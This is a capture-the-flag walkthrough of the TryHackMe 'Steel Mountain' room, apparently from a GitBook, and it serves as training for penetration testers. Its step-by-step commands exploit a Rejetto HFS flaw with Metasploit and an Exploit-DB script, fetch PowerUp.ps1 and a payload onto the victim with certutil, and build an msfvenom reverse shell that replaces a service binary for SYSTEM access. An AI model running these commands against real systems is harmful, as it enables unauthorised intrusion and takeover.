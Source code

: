 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

`nmap -A` 10.10.248.189

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

`msfconsole`&#x20;

`use exploit/windows/http/rejetto_hfs_exec`&#x20;

`set LHOST 10.10.62.157`&#x20;

`set RHOSTS 10.10.181.159`&#x20;

`set RPORT 8080`

`exploit`

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

`nc -nvlp 443`

`cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .`

`python2 -m SimpleHTTPServer 81`

`python2 exploit.py 10.10.181.159 8080`

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Kali**

`wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`&#x20;

`python2 -m SimpleHTTPServer 81`

**Windows**

`certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1`&#x20;

`. .\PowerUp.ps1`&#x20;

`Invoke-AllChecks`

<figure><img src="../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.228.214 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o` ASCService.exe



I couldn't delete the ASCService.exe but I could replace it when I copied the file over with certutil

**Victim**&#x20;

`cd C:\Program Files (x86)\IObit\Advanced SystemCare`\
`sc stop AdvancedSystemCareService9`&#x20;

`certutil -urlcache -f http://10.10.228.214:81/ASCService.exe ASCService.exe`

**Kali**

`nc -lvnp 4443`

**Victim**

`sc start AdvancedSystemCareService9`

![](<../../.gitbook/assets/image (3) (1).png>)

``



